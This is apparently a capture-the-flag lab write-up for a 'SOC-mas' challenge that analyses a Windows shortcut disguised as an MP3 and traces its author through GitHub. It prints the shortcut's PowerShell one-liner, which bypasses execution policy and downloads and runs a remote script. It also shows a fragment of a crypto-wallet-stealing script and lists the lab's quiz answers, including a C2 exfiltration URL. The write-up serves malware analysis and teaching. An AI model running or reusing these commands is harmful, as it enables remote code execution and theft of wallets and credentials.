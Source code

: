 Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?
# Malware Investigation & OPSEC Analysis Reference Guide

## Prerequisites & Skills Needed
- Basic understanding of file systems and command line operations
- Knowledge of Windows shortcuts (.lnk files) and PowerShell
- Familiarity with web browsers and GitHub platform
- Understanding of cybersecurity concepts and malware analysis fundamentals

## Tools & Software Required
- **AttackBox** (virtual machine environment)
- **Web browser** for accessing suspicious websites
- **Terminal/Command line interface**
- **ExifTool** (pre-installed for .lnk file analysis)
- **File extraction utilities** (built-in zip extraction)
- **GitHub search functionality**

## Scripts & Code

### PowerShell Command Found in .lnk File
```powershell
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

### Malicious PowerShell Script Structure
```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"
    Write-Host "         Created by the one and only M.M."
}

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    # [Additional malicious code for data theft]
}
```

## Filters & Configurations

### File Analysis Settings
- **File command**: Standard Linux utility for identifying file types
- **ExifTool parameters**: Default settings for metadata extraction
- **GitHub search filters**: 
  - Search type: Issues
  - Query format: Exact phrase matching with quotes

### PowerShell Execution Flags
- **-ep Bypass**: Disables PowerShell execution policy restrictions
- **-nop**: Prevents loading of PowerShell profiles
- **-c**: Executes specified command

## Commands & Procedures

### Step 1: Initial Website Investigation
1. Access suspicious website via `MACHINE_IP` in web browser
2. Navigate to About page to identify potential attribution
3. Use YouTube to MP3 conversion feature with test URL: `https://www.youtube.com/watch?v=dQw4w9WgXcQ`

### Step 2: File Extraction and Analysis
```bash
# Navigate to downloads directory
cd /root/

# Extract downloaded zip file
# Right-click → Extract To → Extract

# Analyze first file
file song.mp3

# Analyze suspicious second file
file somg.mp3
```

### Step 3: .lnk File Investigation
```bash
# Use ExifTool to extract metadata and embedded commands
exiftool somg.mp3

# Look for these key fields in output:
# - Relative Path
# - Working Directory  
# - Command Line Arguments
# - Machine ID
```

### Step 4: Source Code Analysis
1. Visit PowerShell script URL in browser: `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`
2. Identify unique signatures and strings
3. Extract distinctive identifiers for attribution

### Step 5: GitHub Attribution Search
```
# Search query format
https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues

# Alternative direct access
https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/issues/1
```

## Key Data & Metrics

### File Analysis Results
- **song.mp3**: Legitimate audio file (MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo)
- **somg.mp3**: Malicious Windows shortcut (.lnk file) disguised as MP3
- **File creation timestamps**: September 15, 2018, 07:14:14
- **Target file size**: 448,000 bytes
- **Window execution**: Hidden mode

### Malware Capabilities
- **Cryptocurrency wallet theft** (Bitcoin, Ethereum, Monero, Dogecoin)
- **Browser credential harvesting**
- **Remote file download and execution**
- **Data exfiltration to attacker-controlled servers**

### Attribution Indicators
- **Primary signature**: "Created by the one and only M.M."
- **GitHub username**: MM-WarevilleTHM
- **Repository**: Bloatware-WarevilleTHM/CryptoWallet-Search
- **Machine ID**: win-base-2019

## Critical Takeaways

### OPSEC Failure Patterns
- **Username reuse**: Same handles across multiple platforms
- **Distinctive signatures**: Unique strings in code linking to identity
- **Public repository engagement**: GitHub issues and discussions creating attribution trails
- **Metadata preservation**: Device and system information in malware

### Common YouTube Converter Website Risks
- **Malvertising**: Malicious advertisements exploiting system vulnerabilities
- **Phishing schemes**: Fake surveys and offers to steal credentials  
- **Bundled malware**: Hidden malicious executables in downloaded files
- **Social engineering**: Legitimate-looking interfaces masking malicious intent

### Real-World OPSEC Failure Examples
- **AlphaBay Admin**: Email reuse (pimp_alex_91@hotmail.com), real name Bitcoin accounts, username consistency
- **APT1 Group**: Signed malware with nicknames, forum post correlation, predictable patterns, timezone-based attribution

### Investigation Methodology
- **Multi-vector analysis**: Website, file system, metadata, source code
- **Signature tracking**: Unique identifiers across platforms
- **Timeline correlation**: Activity patterns and timestamps
- **Attribution chaining**: Connecting digital personas to real identities

### Key Warning Signs
- **File type mismatch**: Extensions not matching actual file formats
- **Hidden execution**: Scripts designed to run without user awareness  
- **Remote payload delivery**: Downloads from external sources
- **Credential targeting**: Focus on high-value data like cryptocurrency wallets


Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 
Answer: Tyler Ramsbey

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?
Answer: http://papash3ll.thm/data

Who is M.M? Maybe his Github profile page would provide clues?
Answer: Mayor Malware

What is the number of commits on the GitHub repo where the issue was raised?
Answer: 1

===================================================

























